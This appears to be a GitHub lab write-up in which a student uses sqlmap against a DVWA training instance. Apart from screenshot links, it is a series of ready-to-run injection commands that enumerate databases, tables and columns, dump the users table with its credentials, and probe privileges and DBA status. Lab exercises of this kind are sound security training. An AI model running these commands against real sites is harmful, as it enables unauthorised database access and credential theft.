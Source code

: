# Hacking-a-SQL-database

<h1>Phase 6</h1>


**<p style="font-size: 15px;">Step 1: Use SQLMAP to Hack a Database.</p>**

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/0e947fc3-fdfb-411d-94d9-fc5a8c4bb8d3)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/518e491c-323a-46a3-aa3d-064096cf94cc)

http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Sumbit#

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/571ee018-082e-4ec6-950c-d46c22ddadf6)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/6ca88886-97c0-4483-a0de-d92e5196c681)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -b

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/94178e4f-61c9-45e5-a2f8-7e8035d4e460)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/86db4444-3ff1-4d4e-ac40-bddba9bbdd5f)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --dbs

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/ec943912-4e45-49aa-add6-5046d2755a56)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/58bcf6dd-7fb7-4681-b404-15f0f518277b)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -D dvwa --tables

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/a2c2528f-10a7-44e7-b62a-41ad2fe0210a)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/127762ab-16fc-44ca-bac9-d8196bfdbd8b)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -D dvwa -T users --columns

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/372092ec-e998-4701-b5c9-ec73ddd48791)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/e7b7d9da-1242-4681-92a9-051dc66cc9e5)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -D dvwa -T users --dump

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/b365aada-3774-42c7-8a49-52f422fd4d60)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/dfa4b8d8-16e3-438f-89ba-ee19279ff46f)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/a4a0c3c0-175e-47b1-b2d8-c2e0b68189cf)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --hostname

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/31510a64-d852-4663-bdc2-3578d678c9b8)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/de705765-6ad0-4259-8c3e-9e2ecfb1b96f)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --current-user

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/8f3d546b-21ba-4ace-881b-5ee2ca9b6071)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/30eee76f-dd30-4f3e-90e5-d5e31233c74b)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --current-db

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/c7164227-f46a-4082-ab2f-e6a60bc058ce)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/0c7df860-8454-44d6-b801-0b203c16777f)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --privileges --roles --is-dba

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/f1d7b932-0c0f-46a4-bee2-ba09b0d00bb8)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/1f3eb4f5-0ccc-4bbf-88d2-2eb6f7768f72)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/76693b60-f298-4a2d-ac92-b6002325bcd5)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/d6adb983-0a42-447c-8abc-384a88ae8070)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -crawl=3

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/33a8e2a0-63b5-4eb6-bf9c-757226a01fd7)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/61f89795-22df-4ca6-afb0-0d57bd62d122)



























